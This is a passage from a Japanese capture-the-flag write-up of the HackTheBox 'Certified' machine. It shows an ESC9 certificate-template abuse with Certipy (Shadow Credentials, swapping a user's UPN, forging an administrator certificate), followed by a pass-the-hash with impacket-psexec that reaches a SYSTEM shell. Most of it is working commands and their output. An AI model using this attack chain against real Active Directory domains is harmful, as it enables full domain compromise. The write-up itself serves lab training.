[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'certified-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
    DNS Name                            : DC01.certified.htb
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D
    Certificate Validity Start          : 2024-05-13 15:33:41+00:00
    Certificate Validity End            : 2124-05-13 15:43:41+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : CERTIFIED.HTB\Administrators
      Access Rights
        ManageCertificates              : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        ManageCa                        : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Enroll                          : CERTIFIED.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectAltRequireUpn
    Enrollment Flag                     : NoSecurityExtension
                                          AutoEnrollment
                                          PublishToDs
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFIED.HTB\operator ca
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFIED.HTB\Administrator
        Write Owner Principals          : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
        Write Dacl Principals           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
        Write Property Principals       : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
    [!] Vulnerabilities
      ESC9                              : 'CERTIFIED.HTB\\operator ca' can enroll and template has no security extension
```

`CertifiedAuthentication` というテンプレートに `ESC9` が検出されました。

## No Security Extension (ESC9) 攻撃

No Security Extension (ESC9) 攻撃は、`CT_FLAG_NO_SECURITY_EXTENSION` フラグが設定された脆弱な証明書テンプレートを悪用する攻撃です。このフラグは、証明書に `szOID_NTDS_CA_SECURITY_EXT セキュリティ拡張機能`が埋め込まれるのを防ぎます。ユーザー アカウントに対する `GenericWrite` 権限を持つユーザーは、`userPrincipalName` を変更して、管理者などのターゲットアカウントになりすまし、脆弱なテンプレートから証明書を要求することができます。発行された証明書は、ターゲットアカウントとして認証するために使用できます。

今回の例では `management_svc` が `ca_operator` に対して `GenericAll` 権限をもっており、`Administrator` の侵害を目指します。 ca_operatorは脆弱なテンプレート `CertifiedAuthentication` に `msPKI-Enrollment-Flag` に `CT_FLAG_NO_SECURITY_EXTENSION` を登録することができます。

この攻撃には [Certipy](https://github.com/ly4k/Certipy.git) を使用します。

まず `ca_operator` のNTLMハッシュが必要になります。これは `Shadow Credentials` によって取得するか、新しく作成したパスワードを [NTLM Hash Generator](https://codebeautify.org/ntlm-hash-generator)でNTLMに変換することができます。

```bash
kali@Kali [00時33分10秒] [~/HTB/Certified] 
-> % certipy-ad shadow auto -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -account ca_operator  
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_operator'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'd778868c-7314-0d8e-3210-c33d942e860f'
[*] Adding Key Credential with device ID 'd778868c-7314-0d8e-3210-c33d942e860f' to the Key Credentials for 'ca_operator'
[*] Successfully added Key Credential with device ID 'd778868c-7314-0d8e-3210-c33d942e860f' to the Key Credentials for 'ca_operator'
[*] Authenticating as 'ca_operator' with the certificate
[*] Using principal: ca_operator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_operator.ccache'
[*] Trying to retrieve NT hash for 'ca_operator'
[*] Restoring the old Key Credentials for 'ca_operator'
[*] Successfully restored the old Key Credentials for 'ca_operator'
[*] NT hash for 'ca_operator': 58a478135a93ac3bf058a5ea0e8fdb71
```

`ca_operator` のNTLMハッシュを取得しました。
次に `ca_operator` の `userPrincipalName` を `administrator` に変更します。

```bash
kali@kaliKali [00時41分48秒] [~/HTB/Certified] 
-> % certipy-ad account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn administrator         
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_operator'
```

`userPrincipalName` を変更すると次は、`ca_operator` として脆弱な証明書を要求します。

```bash
kali@Kali [00時44分28秒] [~/HTB/Certified] 
-> % certipy-ad req -u ca_operator@certified.htb -p "Password123" -ca "certified-DC01-CA" -template CertifiedAuthentication
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

 実行に成功すると `administrator.pfx` という名前の証明書が作成されます。
 そして必ず`ca_operator` の `userPrincipalName` をもとに戻しておきます。

```bash
kali@Kali [00時46分49秒] [~/HTB/Certified] 
-> % certipy-ad account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'
```

取得した証明書で認証を行い、成功するとadministrator の NTLM ハッシュを取得することができます。

```bash
kali@Kali [00時47分52秒] [~/HTB/Certified] 
-> % certipy-ad auth -pfx administrator.pfx -domain certified.htb                                                                                       
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```

## Pass-The-Hash

取得したNTLMハッシュを使用して `impacket-psexec` で `Pass-The-Hash攻撃` を行います。

```bash
kali@Kali [00時47分59秒] [~/HTB/Certified] 
-> % impacket-psexec -hashes :0d5b49608bbce1751f708748f67e2d34 Administrator@10.10.11.41
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.11.41.....
[*] Found writable share ADMIN$
[*] Uploading file ZnyqVlLh.exe
[*] Opening SVCManager on 10.10.11.41.....
[*] Creating service XvAi on 10.10.11.41.....
[*] Starting service XvAi.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.6414]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

SYSTEM権限でのシェルを取得することができました。


user.txt と root.txt を取得し、終了です。